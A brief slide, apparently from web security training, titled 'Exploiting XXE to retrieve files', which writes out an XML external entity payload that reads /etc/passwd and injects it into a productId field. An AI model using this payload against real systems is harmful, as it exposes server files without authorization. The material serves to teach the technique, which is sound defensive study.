

# Exploiting XXE to retrieve files
 Payload used:-

 <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

XML file :-
<productId>&xxe;</productId>